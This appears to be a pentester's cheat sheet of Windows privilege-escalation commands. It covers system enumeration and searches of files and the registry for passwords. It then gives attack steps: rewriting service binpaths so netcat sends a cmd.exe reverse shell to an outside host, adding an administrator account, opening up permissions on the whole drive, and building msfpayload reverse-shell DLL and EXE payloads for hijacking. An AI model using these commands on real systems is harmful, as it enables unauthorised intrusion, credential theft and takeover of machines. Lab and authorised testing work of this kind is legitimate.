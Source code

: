 # Windows Priv Notes

1- INFORMATION GATHERING:

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"Domain"

hostname
echo %username%

net users
net user bob

ipconfig /all
route print
arp -A

netstat -ano
netsh firewall show state
netsh firewall show config

schtasks /query /fo LIST /v
tasklist /SVC
net start
DRIVERQUERY

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml


Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes


reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

dir abc.txt /s /p
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

sc qc Spooler
https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx
accesschk.exe -ucqv Spooler
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -ucqv SSDPSRV
accesschk.exe -ucqv upnphost

ONE:
sc qc upnphost
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.62 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

if fail:
        sc qc upnphost
    sc config SSDPSRV start= auto
    net start SSDPSRV

SECOND:
sc qc SSDPSRV
sc config SSDPSRV binpath= "c:\inetpub\nc.exe -nv 10.11.0.90 9090 -e cmd.exe"
sc config SSDPSRV obj= ".\LocalSystem" password= ""
sc config SSDPSRV start= "demand"
sc qc SSDPSRV
net start SSDPSRV

nc -lvvp 9090
net localgroup administrators
net localgroup administrators IWAM_BOB /add
cd c:\
dir /b /s proof.txt
type C:\"Documents and Settings"\Administrator\Desktop\proof.txt

DLL INJECTION:
echo %path%
cacls "C:\Python27"
CACLS c:\ /E /T /C /G "Authenticated Users":F
sc qc IKEEXT
msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D > /root/Desktop/evil.dll
copy evil.dll C:\Python27\wlbsctrl.dll


TFTP & SCHEDULE TASK
accesschk.exe -dqv "E:\GrabLogs"
msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' R | msfencode -t exe > /root/Desktop/evil-tftp.exe
copy evil-tftp.exe E:\GrabLogs\tftp.exe






*** 

Example:

Victim machine low priv:
sc qc upnphost
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.62 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost
sc qc SSDPSRV
